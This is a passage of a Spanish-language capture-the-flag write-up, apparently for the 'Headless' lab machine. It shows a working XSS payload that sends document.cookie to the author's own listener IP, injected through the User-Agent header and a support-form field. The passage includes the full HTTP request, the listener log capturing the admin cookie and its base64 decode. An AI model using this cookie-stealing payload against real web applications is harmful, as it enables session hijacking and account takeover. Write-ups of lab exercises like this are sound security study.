 Por lo tanto decido volver a intentar a inyectar payloads `XSS` de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) luego de varios intentemos vemos que funciona.

```js
<script>document.location="http://10.10.16.36/xss-76.js?cookie="+btoa(document.cookie);</script>
```
Como vemos en el payload donde pone `10.10.16.36` es mi IP lo que hacemos es montar un servidor con `python3 -m http.server 80`, lo siguiente que hice es inyectar el payload en el User-Agent pero para que esto funcione y poder robar la Cookie tenemos que ingresar el mismo payload en algún parámetro del formulario, con esto lo que hacemos es que pueda saltar las alertas de intento de hackeo(Hacking Attempt Detected) y sea revisado por el "administrador"

```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent:<script>document.location="http://10.10.16.36/xss-76.js?cookie="+btoa(document.cookie);</script>  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 173
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=tets&lname=test&email=test%40test.com&phone=test&message=<script>document.location%3d"http%3a//10.10.16.36/xss-76.js%3fcookie%3d"%2bbtoa(document.cookie)%3b</script>  
```
![Pasted image 20240724114531.png](../assets/images-Headless/Headless6.png)

Como podemos ver obtenemos la cookie:
```shell
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [24/Jul/2024 11:38:28] code 404, message File not found
10.10.11.8 - - [24/Jul/2024 11:38:28] "GET /xss-76.js?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 404 -
10.10.11.8 - - [24/Jul/2024 11:38:29] code 404, message File not found
10.10.11.8 - - [24/Jul/2024 11:38:29] "GET /favicon.ico HTTP/1.1" 404 -
```
Vemos que esta esta encodeada en base64 por lo tanto la decodifico:
```bash
❯ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d

is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```